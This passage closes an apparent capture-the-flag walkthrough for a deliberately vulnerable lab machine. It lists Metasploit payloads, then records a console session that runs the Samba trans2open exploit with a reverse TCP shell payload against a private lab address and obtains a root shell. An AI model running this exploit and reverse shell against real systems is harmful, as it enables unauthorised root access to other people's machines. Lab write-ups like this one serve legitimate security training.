   9   linux/x86/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   10  linux/x86/meterpreter/bind_nonx_tcp                        manual  No     Linux Mettle x86, Bind TCP Stager
   11  linux/x86/meterpreter/bind_tcp                             manual  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   12  linux/x86/meterpreter/bind_tcp_uuid                        manual  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   13  linux/x86/meterpreter/reverse_ipv6_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   14  linux/x86/meterpreter/reverse_nonx_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager
   15  linux/x86/meterpreter/reverse_tcp                          manual  No     Linux Mettle x86, Reverse TCP Stager
   16  linux/x86/meterpreter/reverse_tcp_uuid                     manual  No     Linux Mettle x86, Reverse TCP Stager
   17  linux/x86/metsvc_bind_tcp                                  manual  No     Linux Meterpreter Service, Bind TCP
   18  linux/x86/metsvc_reverse_tcp                               manual  No     Linux Meterpreter Service, Reverse TCP Inline
   19  linux/x86/read_file                                        manual  No     Linux Read File
   20  linux/x86/shell/bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
   21  linux/x86/shell/bind_ipv6_tcp_uuid                         manual  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   22  linux/x86/shell/bind_nonx_tcp                              manual  No     Linux Command Shell, Bind TCP Stager
   23  linux/x86/shell/bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Stager (Linux x86)
   24  linux/x86/shell/bind_tcp_uuid                              manual  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   25  linux/x86/shell/reverse_ipv6_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   26  linux/x86/shell/reverse_nonx_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager
   27  linux/x86/shell/reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Stager
   28  linux/x86/shell/reverse_tcp_uuid                           manual  No     Linux Command Shell, Reverse TCP Stager
   29  linux/x86/shell_bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind TCP Inline (IPv6)
   30  linux/x86/shell_bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Inline
   31  linux/x86/shell_bind_tcp_random_port                       manual  No     Linux Command Shell, Bind TCP Random Port Inline
   32  linux/x86/shell_reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Inline
   33  linux/x86/shell_reverse_tcp_ipv6                           manual  No     Linux Command Shell, Reverse TCP Inline (IPv6)

<b>msf5 exploit(linux/samba/trans2open) ></b> set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.222.130  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> run

[*] Started reverse TCP handler on 192.168.222.129:4444 
[*] 192.168.222.130:139 - Trying return address 0xbffffdfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffcfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffbfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.222.129:4444 -> 192.168.222.130:1030) at 2020-12-08 10:22:39 -0500

<p style="color:#05c820">
whoami
root
pwd
/tmp
</p>

</pre>
</details>

Set the necessary options, and run the exploit!
Congrats Matey! You are now root. Hope you enjoyed the first machine of K1optr1x series! 



[1]: https://i.imgur.com/4VJ39cH.png
[2]: https://i.imgur.com/O13Jjr0.png
[3]: https://i.imgur.com/9gwmLN0.png
[4]: https://i.imgur.com/HEWW8uU.png